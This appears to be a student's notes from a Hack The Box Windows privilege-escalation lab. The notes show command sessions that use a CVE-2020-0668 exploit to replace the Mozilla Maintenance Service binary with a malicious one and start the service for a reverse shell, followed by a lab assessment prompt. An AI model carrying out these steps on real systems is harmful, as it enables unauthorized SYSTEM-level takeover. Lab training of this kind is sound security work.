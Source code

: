 **Running the Exploit**

```cmd-session
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

**Checking Permissions of New File**

```cmd-session
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)
```

our htb-student user has full control over the maintenanceservice.exe binary, and we can overwrite it with a non-corrupted version of our malicious binary.

**Replacing File with Malicious Binary**

overwrite the `maintenanceservice.exe` binary in `c:\Program Files (x86)\Mozilla Maintenance Service` with a good working copy of our malicious binary created earlier before proceeding to start the service.

```cmd-session
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.
```

**Starting the Service**

```cmd-session
C:\htb> net start MozillaMaintenance 
```

AND GET A REVERSE SHELL

## Assessment

**Try out the 3 examples in this section to escalate privileges to NT AUTHORITY\SYSTEM on the target host. Submit the contents of the flag on the Administrator Desktop.**

<details><summary>Method 1 - HiveNightmare</summary></details>
